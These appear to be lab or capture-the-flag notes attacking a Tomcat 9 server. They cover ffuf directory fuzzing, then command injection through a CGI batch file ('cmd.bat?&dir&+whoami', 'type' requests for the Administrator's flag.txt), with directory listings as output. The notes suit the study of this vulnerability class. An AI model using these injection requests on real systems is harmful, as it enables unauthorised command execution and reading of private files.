 ffuf -u http://10.129.201.89:8080/FUZZ -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
ffuf -u http://10.129.201.89:8080/host-manager/FUZZ -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt > ffuf_host-manager.txt
ffuf -u http://10.129.201.89:8080/manager/FUZZ -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt > ffuf_manager.txt

### CGI

ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.201.89:8080/cgi/FUZZ.cmd > fuzz_cgi.txt
cat fuzz_cgi.txt

ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.201.89:8080/cgi/FUZZ.bat > fuzz_cgi_bat.txt
cat fuzz_cgi_bat.txt
cmd                     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 68ms]

http://10.129.201.89:8080/cgi/cmd.bat?&dir

 Directory of C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi

09/29/2021  08:26 AM    <DIR>          .
09/29/2021  08:26 AM    <DIR>          ..
09/01/2021  06:58 AM    <DIR>          %SystemDrive%
09/29/2021  08:26 AM            73,802 bHPVV.exe
08/31/2021  12:55 PM                48 cmd.bat
               2 File(s)         73,850 bytes
               3 Dir(s)  28,271,505,408 bytes free

http://10.129.201.89:8080/cgi/cmd.bat?&c%3A%5Cwindows%5Csystem32%5Ctype.exe

http://10.129.201.89:8080/cgi/cmd.bat?&type%20c%3A%5CUsers%5CAdministrator%5CDesktop%5Cflag.txt

--> Failed


http://10.129.201.89:8080/cgi/cmd.bat?&dir&+whoami

http://10.129.201.89:8080/cgi/cmd.bat?&dir&+type+cmd.bat

 Directory of C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi

09/29/2021  08:26 AM    <DIR>          .
09/29/2021  08:26 AM    <DIR>          ..
09/01/2021  06:58 AM    <DIR>          %SystemDrive%
09/29/2021  08:26 AM            73,802 bHPVV.exe
08/31/2021  12:55 PM                48 cmd.bat
               2 File(s)         73,850 bytes
               3 Dir(s)  28,369,334,272 bytes free
@echo off
echo Content-Type: text/plain
echo .

http://10.129.201.89:8080/cgi/cmd.bat?&dir&+type+c%3A%5CUsers%5CAdministrator%5CDesktop%5Cflag.txt

 Directory of C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi
